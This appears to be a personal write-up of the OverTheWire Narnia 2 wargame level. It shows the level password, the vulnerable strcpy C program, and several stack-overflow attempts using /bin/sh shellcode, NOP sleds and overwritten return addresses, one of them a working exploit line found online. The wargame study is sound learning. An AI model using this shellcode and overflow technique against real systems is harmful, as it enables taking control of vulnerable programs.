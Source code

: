 # Narnia 2

Password: `nairiepecu`

C Code:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Looks to be a proper stack overflow, abusing the `strcpy` command (which doesnt check destination buffer length). My initial thoughts are that if I can overflow buffer so it overwrites the next instruction after strcpy (which will be where the instruction pointer is, and so the next instruction will be run) I can bounce into my own shellcode. Maybe just prefix the shellcode from narnia1 with a sufficient set of `no-op` codes so its lined up correctly?

Something like `./narnia2 "$(echo -e '\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`, with the shellcode prefixed with multiple `\x90` to get into the right position.

The buffer is 128 chars, so after 128 we have overloaded the buffer and start overwriting the main code. The strcpy command is around 56 32bit words down, so we need to overwrite by a further 1152 bytes...I think. I gave this a go, but it wasn't successful. 

However I did discover that if I overflowed the buffer by 136 characters, the final four characters overwrote the return address from the main function. From this, after a bit of further research, I worked out that the approach might be to include the shell code in the buffer, then jump to it by overflowing the return address. Hmm.

At this point I spent some time doing some learning. The following three videos from LiveOverflow were very helpful (they're in a row as part of the Binary Hacking playlist):

- [First Stack Buffer Overflow to modify Variable - bin 0x0C](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13)
- [Buffer Overflows can Redirect Program Execution - bin 0x0D](https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)
- [First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15)

On top of that, the original article by AlephOne on stack overflows fills in the missing pieces, and is excellent:

[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

## Steps

The buffer size is 128. I am going to insert the shellcode from narnia1 I came up with, prefixed with NOP instructions and post fixed with a return address that attempts to force the program to jump back into the buffer when it returns from main.

Running GDB with the following string:

ABCDEFGHIJKLMNOPQRSTUVWXYZ67890123456789AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Causes ret to be overflown with XXXX. So we can set the ret address to whatever by replacing XXXX in our dev string with something else.

Breakpointing after the strcpy shows the first address of the buffer (containing ABCD in reverse order) is 0xffffd5a8.

Our shellcode, \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68, is in reality 28 characters long.

So perhaps shellcode + padding + address?

Address is \xa8\xd5\xff\xff

Padding is 132 - 28 = 104, so AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Final string is \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff

```
./narnia2 $(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff")
```

This results in a segfault :( Back to GDB...

Maybe prefix with NOPs?

```
./narnia2 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc0\xd5\xff\xff")
```

The code is getting executed but doesnt seem to be jumping into execve.

Bouncing around the net, this code is doing what I am trying to do, and works:

`./narnia2 $(python -c 'print "\x90"*75 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc8\xd5\xff\xff"*11')`

Breaking down my code, and switching to python to see if encoding is easier (and to make it easier to evaluate):

Total character size: 136 (75 + 25 + 44 in working code, so 144)
Length of my shellcode: 28

My python script would be `./narnia2 $(python -c 'print "\x90"*72 + "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\xc0\xd5\xff\xff"*11')`

No luck. Try with the shellcode from the previous example? `./narnia2 $(python -c 'print "\x90" * 75 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc0\xd5\xff\xff" * 10')`

Still no luck. Back to the original 'working' script and it fails now with segfault. So there is an element of randomness here.